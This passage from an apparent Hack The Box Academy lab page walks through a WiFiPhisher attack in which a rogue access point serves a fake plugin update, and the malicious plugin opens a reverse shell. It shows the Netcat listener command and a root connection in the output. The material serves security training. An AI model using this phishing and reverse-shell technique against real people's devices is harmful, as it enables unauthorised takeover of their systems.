 <p>Once a victim connects to the rogue access point (AP), their device will appear in the "connected stations" list within the tool.</p>
<p><img alt="WiFiPhisher" src="https://academy.hackthebox.com/storage/modules/291/wifiphisher/plug_001.PNG"/></p>
<p>The victim will see the fake plugin update page, which resembles a legitimate plugin update for their system. After they download and execute the malicious plugin, a reverse shell will be established, granting us the control over the victim's system.</p>
<p><img alt="WiFiPhisher" src="https://academy.hackthebox.com/storage/modules/291/wifiphisher/plug_002.PNG"/></p>
<p>To listen for incoming connections, the attacker can use nc (Netcat) on the specified port. The command for listening would be:</p>
<pre><code class="language-shell-session">[!bash!]$ nc -nvlp 4444
</code></pre>
<p>This command tells <code>Netcat</code> to listen on port 4444 for incoming connections. Once the victim executes the malicious plugin, the reverse shell will connect back to our attacker system, and we will gain access to the victim's device.</p>
<pre><code class="language-shell-session">[!bash!]$ nc -nvlp 4444

Listening on 0.0.0.0 4444
Connection received on 10.0.0.23 44470
id
uid=0(root) gid=0(root) groups=0(root)
</code></pre>
<div class="my-3 p-3 vpn-switch-card" id="vpn-switch">
<p class="font-size-14 color-white mb-0">VPN Servers</p>
<p class="font-size-13 mb-0">
<i class="fas fa-exclamation-triangle text-warning"></i><span class="color-white ml-1">Warning:</span> Each
                    time you "Switch",
                    your connection keys are regenerated and you must re-download your VPN connection file.
                </p>
<p class="font-size-13 mb-0">
                    All VM instances associated with the old VPN Server will be terminated when switching to
                    a new VPN server. <br/>
                    Existing PwnBox instances will automatically switch to the new VPN server.</p>
<div class="row mb-3">
<div class="col-12 mt-2">
<div class="d-none justify-content-center vpn-loader">
<div class="spinner-border text-success" role="status">
<span class="sr-only">Switching VPN...</span>
</div>
</div>
<select aria-label="vpn server" class="selectpicker custom-form-control vpnSelector badge-select" title="Select VPN Server">
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 6 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt; &lt;span class='recommended'&gt; &lt;img src='/images/sparkles-solid.svg'/&gt;Recommended&lt;/span&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="30" value="17">US Academy 6</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 5 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="31" value="16">US Academy 5</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 2 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="32" value="5">US Academy 2</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 4 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="32" value="13">US Academy 4</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 1 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="34" value="4">US Academy 1</option>